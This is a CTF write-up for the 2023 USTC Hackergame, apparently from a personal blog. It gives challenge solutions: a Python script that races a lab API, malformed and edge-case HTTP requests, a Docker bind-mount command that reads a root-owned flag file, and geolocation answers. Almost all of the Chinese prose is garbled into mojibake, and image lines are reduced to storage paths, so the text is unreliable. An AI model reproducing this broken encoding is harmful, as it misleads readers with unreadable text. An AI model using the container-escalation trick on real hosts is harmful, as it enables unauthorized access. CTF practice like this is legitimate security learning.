









> **本 Writeup çš„æ›´æ–°ã€æ›´è¯¦ç»†ç‰ˆæœ¬å‘å¸ƒäº [MiaoTony çš„åšå®¢](https://miaotony.xyz/2023/11/05/CTF_2023Hackergame/?utm_source=github_hackergame2023)，之å若有修正请以åšå®¢å†…容为准，仓库内的版本应该ä¸å†ç»´æŠ¤äº†ã€‚**
>
> 欢è¿æ¥ [喵喵的åšå®¢](https://miaotony.xyz/?utm_source=github_hackergame2023) 转转喵~

# CTF | 2023 USTC Hackergame WriteUp


## 引言

今年这段时间事情挺多，没啥时间æ¥çœ‹é¢˜ï¼Œç‰¹åˆ«æ˜¯å‘¨æœ«è¿˜èŠ±äº†ç‚¹æ—¶é—´ï¼Œ[å’Œ SU 的队å‹æ‰“ XCTF 分站赛 ACTF 2023 å»äº†](https://su-team.cn/passages/2023-10-28-ACTF/)，最å打了个第二，队å‹å¥½å¼ºï¼ï¼ï¼

hackergame å°±åªæœ‰å‡ ä¸ªæ™šä¸Šçš„时间简å•ç„了下，但是æ€ä¹ˆåšç€åšç€ä¸€æ™šä¸Šå°±è¿‡å»äº†ï¼Œç‰¹åˆ«æ˜¯æœ€å一晚上看ç€é¢˜ç›®æ€ä¹ˆå°±å¤©äº®äº†ï¼Œé¡¶ä¸ä½é¡¶ä¸ä½ï¼Œæƒ³ç¡å¤§è§‰ï¼Œå‘¼å‘¼~

这篇 wp éšä¾¿æ¥è®°å½•ä¸€ä¸‹è§£é¢˜è¿‡ç¨‹ï¼Œå½“然还有ä¸å°‘åšé¢˜è¿‡ç¨‹ä¸­çœ‹åˆ°çš„有æ„æ€çš„东西。

**希望大家看了也能有所收è·ï¼**

> 顺便，喵喵往年的 Hackergame Writeup å›é¡¾ï¼š
>
> [CTF | 2022 USTC Hackergame WriteUp 0x01](https://miaotony.xyz/2022/10/30/CTF_2022Hackergame_0x01/)
>
> [CTF | 2021 USTC Hackergame WriteUp](https://miaotony.xyz/2021/11/03/CTF_2021Hackergame/)
>
> [CTF | 2020 USTC Hackergame WriteUp](https://miaotony.xyz/2020/11/08/CTF_2020Hackergame/)


## Hackergame å¯åŠ¨

åŒæ ·çš„å‰ç«¯ UI ç¼ç¼è¡¥è¡¥ç»§ç»­ç”¨æ


å‘ç°æ˜¯å‰ç«¯æ ¡éªŒç›¸ä¼¼åº¦ç„¶åå‘请求


ç›´æ¥ `/?similarity=100` 完事


最下é¢çš„是陆队å言ï¼


## 猫咪å°æµ‹


*~~（什么Z佬喵~~*


> 1. 想è¦å€Ÿé˜…世界图书出版公å¸å‡ºç‰ˆçš„《A Classical Introduction To Modern Number Theory 2nd ed.》，应当å‰å¾€ä¸­å›½ç§‘学技术大学西区图书馆的哪一层？**（30 分）**
>
> æ示：是一个é负整数。

**12**

https://lib.ustc.edu.cn/%e6%9c%ac%e9%a6%86%e6%a6%82%e5%86%b5/%e9%a6%86%e8%97%8f%e5%88%86%e5%b8%83/

馆è—分布


> 2. 今年 arXiv 网站的天体物ç†ç‰ˆå—上有人å‘表了一篇关äºã€Œå¯è§‚测宇宙中的鸡的密度上é™ã€çš„论文，请问论文中作者计算出的鸡密度函数的上é™ä¸º 10 的多少次方æ¯ç«‹æ–¹ç§’å·®è·ï¼Ÿ**（30 分）**
>
> æ示：是一个é负整数。

**23**

https://arxiv.org/abs/2303.17626

> We find the most restrictive upper limit from the domains considered to be 10^23 pc^−3, which ruffles the feathers of long-standing astrophysics theory.     

甚至 bä¹ ä¸Šè¿˜æœ‰ä¸€ç¯‡å›ç­”讲到了这篇论文：[ä½ è§è¿‡å“ªäº›æå“论文？](https://www.zhihu.com/question/20337132/answer/3023506910)


https://www.zhihu.com/question/20337132/answer/3023506910

> 3. ä¸ºäº†æ”¯æŒ TCP BBR æ‹¥å¡æ§åˆ¶ç®—法，在**编译** Linux 内核时应该é…置好哪一æ¡å†…核选项？**（20 分）**
>
> æ示：输入格å¼ä¸º CONFIG_XXXXX，如 CONFIG_SCHED_SMT。


**`TCP_CONG_BBR`**

> 4. 🥒🥒🥒：「我……ä»æ²¡è§‰å¾—写类å‹æ ‡æ³¨æœ‰æ„æ€è¿‡ã€ã€‚在一篇论文中，作者给出了能够让 Python çš„ç±»å‹æ£€æŸ¥å™¨ ~~MyPY~~ mypy 陷入死循ç¯çš„代ç ï¼Œå¹¶è¯æ˜ Python çš„ç±»å‹æ£€æŸ¥å’Œåœæœºé—®é¢˜ä¸€æ ·å›°éš¾ã€‚请问这篇论文å‘表在今年的哪个学术会议上？**（20 分）**
>
> æ示：会议的大写英文简称，比如 ISCAã€CCSã€ICML。

**ECOOP**

google `paper mypy infinite loop`


æœåˆ°è®ºæ–‡ Python Type Hints Are Turing Complete，正好还是今年的

https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf


`flag{WE1C0mE-To-aTT3nd-th3-n3k0-eX4M-2oz3}`

`flag{R3AL-maS7eR-Of-7HE-N3K0-EXaM-iN-u$7C}`


## 更深更暗

å‰ç«¯æ ¹æ® token 生æˆçš„ flag，直æ¥æ‰§è¡Œå°±å¥½


## èµ›åšäº•å­—棋

å‘ç°æ€ä¹ˆç©éƒ½ç©ä¸è¿‡ AI，但是çªç„¶å‘ç°ç›´æ¥å‘请求过å»ï¼ŒæŠŠæ£‹å­ä¸‹åˆ°å·²ç»å ç”¨çš„ä½ç½®ä¸Šæ˜¯å¯ä»¥æŠŠå¯¹é¢ç»™åƒäº†çš„，哈哈


## 奶奶的ç¡å‰ flag 故事

é‚£ä¸å°±æ˜¯ä»Šå¹´3月份 Pixel 爆出æ¥é‚£ä¸ªé€‰æ‹©åŒºåŸŸæˆªå›¾çš„时候没把åŸæ¥å›¾ç‰‡å¤šä½™ chunk 给删除æ‰çš„ bug 嘛

> Google Pixel 内置截图编辑器存在严é‡çš„éšç§æ³„露bug。
> 当编辑截图时，编辑器仅仅覆盖åŸæ–‡ä»¶ç›¸åº”的区域而ä¸æ˜¯å…¨éƒ¨é‡å†™ï¼Œå¦å¤–ç”±äºè£å‰ªè¿‡çš„图片一般å°äºåŸå›¾ç‰‡ï¼Œäºæ˜¯åŸå›¾ç‰‡çš„部分数æ®è¿˜å­˜ç•™åœ¨æ–‡ä»¶é‡Œã€‚
>
> https://twitter.com/itssimontime/status/1636857478263750656

https://github.com/infobyte/CVE-2023-21036

这是个检测和消毒å»é™¤å¤šä½™ chunk 的工具，ä¸è¿‡é¡ºä¾¿æ‰¾åˆ°äº†ä¸ªåœ¨çº¿è¿˜åŸçš„工具

If you want to try to recover the original screenshots use https://acropalypse.app

设备选 Pixel 7 å¯ä»¥æ¢å¤


`flag{sh1nj1ru_k0k0r0_4nata_m4h0}`


## 组委会模拟器




看起æ¥ä¼šå…ˆ POST http://202.38.93.111:10021/api/getMessages 这个æ¥å£ç„¶å拿到消æ¯ä»¥åŠå¯¹åº”的延迟


删除消æ¯çš„è¯ 

```http
POST /api/deleteMessage HTTP/1.1
Host: 202.38.93.111:10021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Content-Type: application/json
Content-Length: 10
Origin: http://202.38.93.111:10021
Referer: http://202.38.93.111:10021/
Cookie: ...

{"id":345}
```

最å调用 

POST http://202.38.93.111:10021/api/getflag

æ¥æ‹¿ flag

写个脚本一把梭

```python
import requests
import re
import time


cookies = {
    'session': 'ey...'
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
    'Accept': 'application/json, text/plain, */*',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    # 'Accept-Encoding': 'gzip, deflate',
    'Origin': 'http://202.38.93.111:10021',
    'DNT': '1',
    'Connection': 'keep-alive',
    'Referer': 'http://202.38.93.111:10021/',
    'X-Forwarded-For': '1.0.0.1',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache'
}


def deleteMsg(id: int):
    json_data = {
        'id': id,
    }
    response = requests.post(
        'http://202.38.93.111:10021/api/deleteMessage',
        cookies=cookies,
        headers=headers,
        json=json_data,
        verify=False,
    )
    print(response.text)


response = requests.post(
    'http://202.38.93.111:10021/api/getMessages', cookies=cookies, headers=headers)
msgs = response.json()['messages']

flag = re.compile(r"hack\[[a-z]+\]", re.M)


time_begin = time.time()

for k, msg in enumerate(msgs):
    text = msg['text']
    delay = msg['delay']
    if flag.findall(text):
        print(k, delay, text)
        time_gone = time.time() - time_begin
        time_delay = delay - time_gone
        if time_delay >= 0:
            time.sleep(time_delay)
        deleteMsg(k)

response = requests.post(
    'http://202.38.93.111:10021/api/getflag', cookies=cookies, headers=headers)

print(response.text)
```


## 虫

ç»å…¸ SSTV


`flag{SSssTV_y0u_W4NNa_HaV3_4_trY}`


## JSON ⊂ YAML?

### JSON ⊄ YAML 1.1 

[What valid JSON files are not valid YAML 1.1 files?](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)

```
12345e999
```


或者 

```
{"a": 1e2}
```

YAML 当æˆæ˜¯å­—符串了




### JSON ⊄ YAML 1.2

还是上é¢é‚£ä¸ªé“¾æ¥é‡Œæœ‰ä¸€å¥ 

> YAML 1.2 is (with one [minor caveat](http://yaml.org/spec/1.2/spec.html#id2759572) regarding duplicate keys) a superset of JSON, so any valid JSON file is also a valid YAML file.

也就是

> JSON's [RFC4627](http://www.ietf.org/rfc/rfc4627.txt)        requires that [mappings](http://yaml.org/spec/1.2-old/spec.html#mapping//) [keys](http://yaml.org/spec/1.2-old/spec.html#key//) merely “SHOULD†be [unique](http://yaml.org/spec/1.2-old/spec.html#equality//), while YAML insists they        “MUST†be. Technically, YAML therefore complies with the        JSON spec, choosing to treat duplicates as an error. In practice, since        JSON is silent on the semantics of such duplicates, the only portable        JSON files are those with unique keys, which are therefore valid YAML        files.      

那我æ„é€ ä¸¤ä¸ªç›¸åŒ key 的试试呗

```
{"a":123451243, "a":"afgafds"}
```


JSON å’Œ YAML 1.1 åªä¼šå–最å一个值，而 YAML 1.2 因为é‡å¤çš„ key 而报错了。

```python
# ...
  File "D:\Programs\Anaconda\lib\site-packages\ruamel\yaml\constructor.py", line 276, in check_mapping_key
    raise DuplicateKeyError(*args)
ruamel.yaml.constructor.DuplicateKeyError: while constructing a mapping
  in "<unicode string>", line 1, column 1:
    {"a":123451243, "a":"afgafds"}
    ^ (line: 1)
found duplicate key "a" with value "afgafds" (original value: "123451243")
  in "<unicode string>", line 1, column 17:
    {"a":123451243, "a":"afgafds"}
                    ^ (line: 1)
```


BTW，题目中用的版本是 

```bash
pip install PyYAML==6.0.1 ruamel.yaml==0.17.40 ruamel.yaml.clib==0.2.8
```

而 ruamel.yaml 在 0.18 之åå·²ç»ä¸è®©ä½¿ç”¨ safe_load 方法了，当å‰æœ€æ–°çš„ 0.18.3 版本直æ¥æŠŠç›¸å…³çš„方法移除了。


## Git? Git!

ç›´æ¥ `git reflog` 看看干了啥，然å `git diff` 拿到 flag


`flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}`


## HTTP 集邮册


### 5 ç§çŠ¶æ€ç 

正常访问存在的路径 -> 200

请求一个ä¸å­˜åœ¨çš„文件 404

ä¸å…许方法 OPTIONS -> 405 Not Allowed

```http
OPTIONS /robots.txt HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

éšä¾¿æ„造个æ¶æ„æ ¼å¼çš„请求 -> 400

æ„造一个超长 URI -> 414


### 12 ç§çŠ¶æ€ç 

继续试试其他的请求

分段请求 Range -> 206 Partial Content

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=0-4\r\n\r\n
```

HTTP/2 -> 505 HTTP Version Not Supported


超过范围的 Range -> 416 Requested Range Not Satisfiable

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=6599\r\n\r\n
```


501 Not Implemented

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Transfer-Encoding: chunked\r\n\r\n
```

304 Not Modified

```http
GET /50x.html HTTP/1.1\r\n
Host: example.com\r\n
Connection: keep-alive\r\n
If-Modified-Since: Tue, 15 Aug 2023 17:03:04 GMT\r\n\r\n
```

或者用 `If-None-Match: "64dbafc8-1f1"` 类似这样也行


æ„造一个 `Content-Length` å¤§äº nginx 设定的最大值的 -> 413 Request Entity Too Large

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: close\r\n
Content-Length: 9999999999999999\r\n\r\n

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadsfjkldsjfaklfjasdfklgj\r\n\r\n
```


Expect [Large message body](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expect#large_message_body) -> 100


但是这里如æœç”¨ PUT 会405，äºæ˜¯è¿˜æ˜¯æ”¹ç”¨ GET 了，å‘ç°å…¶å®ä¹Ÿæ˜¯ä¼šæ ¡éªŒ Expect 字段的

>   The server checks the headers and generates the response.  The server sends [`100`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/100) (Continue), which instructs the client to send the message body.

```http
GET / HTTP/1.1\r\n
Host: origin.example.com\r\n
Content-Type: video/h264\r\n
Content-Length: 120987\r\n
Expect: 100-continue\r\n\r\n
```

[RFC 7231 Expect](https://tools.ietf.org/html/rfc7231#section-5.1.1)


但是 nginx 好åƒæ²¡æœ‰å®ç° 417 (Expectation Failed)？

[Nginx doesn't support HTTP status code 417 (Expectation Failed)](https://trac.nginx.org/nginx/ticket/2062)

==> [100, 200, 206, 304, 400, 404, 405, 413, 414, 416, 501, 505]

啊，终äºé›†é½äº†ï¼Œè¦æŠŠ [MDN HTTP å“应状æ€ç ](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status) 文档给翻烂了（甚至 ~~差点~~ å·²ç»å¼€å§‹ç¿»é˜… [nginx æºç ](https://trac.nginx.org/nginx/browser?order=name) 了。。

`flag{I think that when many such status codes are accumulated def0ee5cf2 it becomes a lifetime}`


### 没有状æ€â€¦â€¦å“ˆï¼Ÿ

对应的容器为**默认é…置下的 `nginx:1.25.2-bookworm`**

é…置为

```nginx
user  nginx;
worker_processes  auto;

error_log  /var/log/nginx/error.log notice;
pid        /var/run/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

    include /etc/nginx/conf.d/*.conf;
}
```

gzip 是关闭的，看æ¥ä¸èƒ½æ‹¿æ¥æ•´æ´»äº†ã€‚

éšæ‰‹è¯•äº†ä¸€ä¸‹ï¼Œ**å‘é€ä¸å®Œæ•´æˆ–æ ¼å¼é”™è¯¯çš„请求**，这样就能出了

```http
GET /HTTP/1.1\r\n
Host: yourserver.com\r\n\r\n
```


`flag{great backward compatibility of nginx, R1ght?}`

看起æ¥æ˜¯åå‘兼容的设计？没å“应头部的数æ®åªæœ‰ body 的了。

查了下，其å®å°±æ˜¯ **HTTP/0.9** 的规范了

那确å®ç›´æ¥ `GET /1\r\n\r\n` 就行了，哈哈


See also: [MDN: HTTP çš„å‘展](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)


## Docker for Everyone

ç»å…¸æ—¥æœºå™¨/ææƒ/容器逃逸的方法了，哈哈

```bash
alpine:~$ docker run -v /flag:/flag alpine:latest cat /flag
flag{u5e_r00t1ess_conta1ner_8ed24f192c_plz!}
```


## 旅行照片 3.0


### 题目 1-2 ç¥ç§˜å¥–牌

> 1ã€ä½ è¿˜è®°å¾—ä¸å­¦é•¿è§é¢è¿™å¤©æ˜¯å“ªä¸€å¤©å—？（格å¼ï¼šyyyy-mm-dd）
>
> 2ã€åœ¨å­¦æ ¡è¯¥å±•å…展示的所有åŒç§é‡‘色奖牌的得主中，出生最晚者è·å¥–时所在的研究所缩写是什么？ 

今年暑å‡ï¼Œæ—¥æœ¬


[STATPHYS28](https://statphys28.org/) 


学长那天晚上将继续他的学术之旅，应该就这其中的一天，很å¯èƒ½æ˜¯å€’数第二天

**2023-08-10**

看起æ¥è¿™æ˜¯ç‰©ç†å­¦å’ŒåŒ–学奖的奖章

M. KOSHIBA å°æŸ´æ˜Œä¿Š 是中微å­å¤©æ–‡å­¦çš„开创者之一，2002年他因“对天体物ç†å­¦çš„开拓性贡献，特别是宇宙中微å­æ¢æµ‹æ–¹é¢â€è·å¾—诺è´å°”物ç†å­¦å¥–。

那就是 东京大学

[日本人诺è´å°”奖得主](https://zh.wikipedia.org/zh-sg/%E6%97%A5%E6%9C%AC%E4%BA%BA%E8%AB%BE%E8%B2%9D%E7%88%BE%E7%8D%8E%E5%BE%97%E4%B8%BB)


[梶田隆章](https://zh.wikipedia.org/zh-sg/%E6%A2%B6%E7%94%B0%E9%9A%86%E7%AB%A0)

东京大学宇宙射线研究所，https://www.icrr.u-tokyo.ac.jp/ 

The Institute for Cosmic Ray Research (ICRR)


**ICRR**


### 题目 3-4 这是什么活动？

> 3ã€å¸ç¯·ä¸­æ´»åŠ¨æ‹›å‹Ÿå¿—愿者时用äºçš„在线问å·çš„ç¼–å·ï¼ˆä»¥å­—æ¯ S 开头åæ¥æ•°å­—）是多少？
>
> 4ã€å­¦é•¿è´­ä¹°è‡ªå·±çš„åšç‰©é¦†é—¨ç¥¨æ—¶ï¼ŒèŠ±è´¹äº†å¤šå°‘日元？

28th International Conference on Statistical Physics, Statphys28

日本东京都文京区本乡 5 Chome−23−11 らーã‚ã‚“ 一信




https://www.google.com/maps/@35.7093013,139.7603584,3a,77.5y,243.16h,95.42t/data=!3m7!1e1!3m5!1sj3OENOF4WAsKrHXENxxK5A!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fpanoid%3Dj3OENOF4WAsKrHXENxxK5A%26cb_client%3Dmaps_sv.tactile.gps%26w%3D203%26h%3D100%26yaw%3D187.5142%26pitch%3D0%26thumbfov%3D100!7i16384!8i8192?entry=ttu





https://www.google.com/maps/@35.7172401,139.7750521,2a,75y,193.78h,96.67t/data=!3m9!1e1!3m7!1svDtWtjLzbEDvX8aWnFNaCQ!2e0!7i13312!8i6656!9m2!1b1!2i38?entry=ttu

东京上é‡å•¤é…’节？

è°·æ­Œ 东京上é‡å…¬å›­ ボランティア人 （志愿者），时间é™å®šåˆ°8月


[ボランティアSTAFF大募集ï¼ï¼ç¬¬ï¼–å›ã€Œå…¨å›½æ¢…é…’ã¾ã¤ã‚Šinæ±äº¬2023ã€](https://umeshu-matsuri.jp/tokyo_staff/)

https://ws.formzu.net/dist/S495584522/


**S495584522**

https://www.klook.com/zh-CN/activity/93708-ueno-de-beer-festa/


